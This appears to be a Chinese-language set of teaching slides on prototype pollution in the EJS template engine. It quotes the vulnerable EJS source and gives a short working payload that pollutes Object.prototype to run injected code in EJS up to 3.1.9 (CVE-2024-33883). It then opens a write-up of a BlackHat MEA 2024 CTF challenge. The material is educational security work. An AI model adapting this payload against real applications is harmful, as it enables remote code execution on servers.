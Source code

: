 
#### Ejs RCE

```js {*}{lines:true}
// https://github.com/mde/ejs/blob/cd6817e429c4b1ab40059955968f7ba4b8be64eb/lib/ejs.js#L636-L641
if (opts.client) {
  src = "escapeFn = escapeFn || " + escapeFn.toString() + ";" + "\n" + src;
  if (opts.compileDebug) {
    src = "rethrow = rethrow || " + rethrow.toString() + ";" + "\n" + src;
  }
}
```

```js {*}{lines:true}
const ejs = require("ejs");

Object.prototype.client = "true";
Object.prototype.escapeFunction = 'function() {console.log("PWNED")}';

const template = "<h2><%= name %></h2>";
ejs.render(template, { name: "John" }, {});
```

<v-clicks>

- 上述 Payload 只对 EJS <= 3.1.9 有效。

- 他们在 2019 年的时候觉得这不算洞，不修（[#451](https://github.com/mde/ejs/issues/451)）

- 然而 2024 年还是做了缓解措施，而且发了 [CVE-2024-33883](https://nvd.nist.gov/vuln/detail/cve-2024-33883)

- 如果能绕过这个缓解措施，我觉得也能拿 CVE 编号，欢迎挑战 \:P

</v-clicks>

---

### 题目：Fastest Delivery Service （BlackHat MEA CTF Qualification 2024）

使用提供的容器镜像，启动服务：

```bash
docker load -i fastest_delivery_service.tar
docker run --rm -p 3000:3000 fastest_delivery_service
```

服务运行后，访问 `http://localhost:3000/` 即可看到相关页面。
请尝试利用该服务的漏洞，得到 flag。

---

#### 解题思路 1

- 初步分析：这道题给了一个应用的源代码。应用基于 Node.js，有登录、注册和地址表单功能。最有趣的部分是当我在地址表单的两个字段都提交用户名时，触发了类型错误页面。这个错误显示地址功能在修改用户对象。

- 看 Dockerfile，发现命令随机化了 flag 文件名，所以大概率需要通过 RCE 来获取 flag。
